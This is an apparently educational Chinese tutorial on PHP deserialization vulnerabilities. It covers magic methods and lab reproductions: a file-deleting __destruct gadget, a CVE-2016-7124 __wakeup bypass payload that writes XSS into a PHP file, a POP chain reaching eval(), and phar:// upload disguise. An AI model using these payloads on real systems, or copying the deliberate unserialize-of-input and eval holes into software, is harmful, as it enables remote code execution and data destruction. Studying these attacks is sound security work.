








### php反序列化

#### 1.序列化与反序列化
    序列化（serialize）是将变量转化为可保存或可传输的字符串的过程
    反序列化（unserialize）就是在适当的时候把这个字符串在转变为原来的变量使用
php进行序列化的目的是保存一个对象方便以后重用
##### php序列化实例
    <?php 
        class person
        {
            public $name='';
            public $age=0;
            public function Information()
            {
                echo 'person:'.$this->name.'is'.$this->age.'yers old.<br />';
            }
        }
        $per = new person();
        $per->name ='aileile';
        $per->age = 18;

        echo serialize($per)
    ?>`
本代码定义了person类 并将其实例化为per这个对象，并将对象的序列化，下图为序列化结果：    
     

其中可以看到序列化只会保存序列的变量而不会保存序列化的方法

##### php反序列化实例


    <?php 
        class person
        {
            public $name='';
            public $age=0;
    
            public function Information()
            {
                echo 'person:'.$this->name.' is'.$this->age.' years old.<br />';
            }
        }
    
        $per = new person();
        $per->name ='aileile';
        $per->age = 18;
    
        $unper=serialize($per);
        $per=unserialize($unper);
        $per-> Information();
    
    ?>
这里使用unper变量保存了per序列化后的字符串，并对其进行反序列化 最后使用对象的方法，可以看到对象准确调用了自己的变量：


#### 2.php魔法函数
在php中有一类函数，可以在脚本的任何地方不需要声明就可以使用。而这正好成为了我们利用序列化漏洞的关键！
- __construct() ......... //当一个对象创建时会被调用
- __destruct()  ........... //当对象被销毁时触发
- __wakeup() ........... //使用unserialize时会被触发
- __sleep()  .................//使用serialize时会被触发
- __toString()............//把类当作字符串使用时触发
- __get() ....................//用于从不可访问的属性读取数据
- __set().....................  //用于将数据写入不可访问的属性
- __isset()..................  //在不可访问的属性上调用isset()或empty()触发
- __unset()................  //在不可访问的属性上调用nset()触发
- __invoke().............. //当脚本尝试将对象调用为函数时触发
##### php魔法函数实例


    <?php 
        class person
        {
            public $name='';
            public $age=0;
            
            public function Information()
            {
                echo 'person:'.$this->name.' is'.$this->age.' years old.<br />';
            }
            public function __toString()
            {
                return (string)('I am _toString <br />');
            }
            public function __construct()
            {
                echo 'I am _construct <br />';
            }
            public function __destruct()
            {
                echo 'I am _destruct <br />';
            }    
            
        }
        
        $per = new person();
        $per->name ='aileile';
        $per->age = 18;
        echo $per;
    
    ?> 
这个代码中第26行对象实例化，那么就用到了_construct方法，在第29行直接输出对象即用到了_toString方法，最后结束时用到了__destruct方法。我们也可以在运行中看到使用的整个流程：


#### 3.php反序列化漏洞
php反序列化漏洞又称对象注入，可能会导致注入，远程代码执行等安全问题的发生。
##### 产生原理
如果一个php代码中使用了unserialize函数去调用某一个类，该类会自动执行一些自定义的magic method，这些magic method中如果包含了一些危险的操作，或者这些method又会去调用类中其他带有危险操作的函数，而如果这些危险操作使我们可控的，那么就可以利用这些危险操作来达到一定的目的。
如：
类A——调用unserialize（）—— 而直接触发了__construct() ———— construct中调用危险操作 或者说construct再次调用其他函数（包含危险操作）
##### php反序列化漏洞实例
首先我们已知一段含有魔法函数__destruct()函数的代码如下：

    <?php
    
        class delete
        {
            public $filename='error';
            public function __destruct()
            {
                echo $this->filename. ' was deleted<br />';
                unlink(dirname(__FILE__). '/' . $this->filename);
            }
        }
        
    ?>
这段代码中可以看到重写了__destruct函数 如果实例化这个delete类的话，将会通过unlink函数删除相应的文件。
那么要用到这个魔法函数那么我们就可以通过序列化反序列化的操作去悄悄触发这个魔法函数，于是有了第二段代码：

    <?php
        include '2.php';
        
        class Person
        {
            public $name='';
            public $age=0;
            public function Information()
            {
                echo 'person:'.$this->name.' is'.$this->age.' years old.<br />';
            }
        }
        $per = unserialize($_GET['per_serialized']);
    ?>
这段代码中我们可以看到通过GET方式传入参数并反序列化了一个变量，同时引入了上一段代码，也就是说当我给per_serialize这个变量传入值，这个值是属于delete类，并运行了反序列化后，代码会直接到2.php的代码中在delete类中执行__destruct函数，去触发删除操作。
由此，我们可以根据上述推断写出下面的代码将要删除的文件置于delete类中，并将其先序列化。方便后续真正实现中的反序列化操作。代码如下：

    <?php 
        class delete
        {
            public $filename='error';
        }
        $test = new delete();
        $test -> filename='1.txt';
        echo serialize($test);
    ?>
整个流程反向利用整理如下所示：
首先获得要删除文件的序列化值（在delete类中）

其次，通过找到的利用点通过get方式传入序列化值

最终成功删除文件


#### 4.漏洞利用
##### a. cve-2016-7124 ( __wakeup()绕过)    
###### 漏洞相关
漏洞成因：
因为反序列化时，如果表示对象属性个数的值大于真实的属性个数时就会跳过__wakeup()的执行。
影响版本：
    php < 5.6.25
    php < 7.0.10
###### 漏洞复现
构造了一个测试代码如下所示：
```php
<?php 
    class test
    {
        public $name="fairy";
        public function __wakeup(){
            echo "this is __wakeup<br>";
            foreach(get_object_vars($this) as $k => $v){
                $this -> $k = null;
            }
        }
        public function __destruct(){
            echo "this is __destruct<br>";
            $fp = fopen("C:\\phpstudy_pro\\WWW\\3.php","w");
            fputs($fp,$this->name);
            fclose($fp);
        }
        
    }
    $str = $_GET["s"];
    @$un_str = unserialize($str);
    echo $un_str->name."<br>";
?>
```
在这个代码中，通过get方式获取字符串str并对其反序列化。而test类中包含_wakeup()方法以及_destruct()方法。通常来说我们在使用unserialize时，其会先触发_wakeup()方法，再触发_destruct()。
在彻底分析一下整个代码：_wakeup将对象的所有值请客，而_destruct将对象的name写入3.php中。此时如果按照正常流程出来可以知道name的值已被清空，即写入3.php的值为空。正常访问所需网址构造如下：
```
127.0.0.1/test.php?s=O:4:"test":1:{s:4:"name";s:25:"<script>alert(1)</script>";}
```
于是需要想办法绕过_wakeup()。为此构造payload如下：    
```
127.0.0.1/test.php?s=O:4:"test":2:{s:4:"name";s:25:"<script>alert(1)</script>";}
```
测试一下当正常访问时，可以看到访问了_wakeup()以及_destrcut()。未能向文件写入。


再测试一下，试着更改序列化中的对象属性值，绕过_wakeup()的执行
")
可以看到图中所示，代码绕过了_wakeup()的执行，直接执行了_destruct()执行，向3.php中写入了xss代码实现了漏洞复现利用。

##### b. 注入对象构造方法
当代码中出现几个类中同时出现相同名字的方法时，可以试着构造一定的代码触发漏洞。例如如下代码中，都有相同的action()方法：
```php
<?php 
    class A{
        var $target;
        function __construct(){
            $this->target=new B;
        }
        function __destruct(){
            $this->target ->action();
        }
    }
    class B{
        function action(){
            echo "action B";
        }
    }
    class C{
        var $test;
        function action(){
            echo "action A";
            eval($this->test);
        }
    }
    unserialize($_GET['test']);
    
?>
```
可以看到在这个代码中，类A触发反序列化，会去执行类B的action函数，而B中并没有可以利用的函数，反之C的action中有可以利用的eval一句话木马。而unserialize只会触发_destruct()方法，在这个方法中并没有注明是谁的action函数。所以我们需要在序列化的test上下功夫。为此构造代码如下：
```php
<?php
    class A{
        function __construct(){
            $this->target = new C;
            $this->target->test="phpinfo();";
        }
        function __destruct(){
            $this->target->action();
        }
    }
    class C{
        var $test;
        function action(){
            echo "action A";
            eval($this->test);
        }
    }
    $a= serialize(new A);
    echo $a;
?>
```
这个代码中其他不变，只需将目标代码中没有触发的_construct()关键点更改为我们需要的类C的相关内容即可。


可以看到实现了通过类A实现类C的函数，并利用了其中的危险代码实现注入。

###### private & protected
在注入中尤其需要注意当变量被private或protected修饰时，其序列化结果稍有不同。示例代码如下：
```php
<?php 
        class person
        {
            private $name='aileile';
            protected $age=18;
        }
        echo serialize(new person);
?>
```
序列化结果如下：

所以当我们自己注入时如果变量由private修饰则需在前面加入“%00变量名%00”，而由protected修饰的话则需在前面加入“%00*%00”。前面的数字也应相应改变。
    
##### 利用phar绕过unserialize()
在文件系统函数（file_exists()、is_dir()）的参数可控的情况下，配合phar://伪协议，不依赖unserialize()直接进行反序列化操作。  
###### phar文件结构
1. a stub—— 格式为xxx<?php xxx; __HALT_COMPILER();?>，前面的内容不限，但必须以 __HALT_COMPILER();?>来结尾，否则phar扩展无法识别这个文件为phar文件
2. a manifest describing the contents—— phar的本质是一个压缩文件。文件的权限属性等信息都放在这部分，会以序列化的形式存储用户自定义的meta-data。这是实现反序列化攻击的核心。
3. the file contents—— 被压缩文件的内容。
4. a signature（optional）—— 签名。
php大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会进行meta-data进行反序列化操作。这就是可以利用的点。
###### 利用条件
1. phar文件要能够上传到服务器端
2. 要有可用的魔法方法作为“跳板”
3. 文件操作函数的参数可控，且“：”，“/”，“phar”等特殊字符没有被过滤        

当文件参数可控的时候，构造参数，在不调用unserialize的情况下进行反序列化操作。在文件上传时，将phar伪造成其他格式的文件，通过添加任意文件头修改后缀名的方式将phar文件伪装成其他格式的文件。
#### 参考文献
https://paper.seebug.org/680/   
https://www.cnblogs.com/ichunqiu/p/10484832.html    
https://www.freebuf.com/column/202607.html
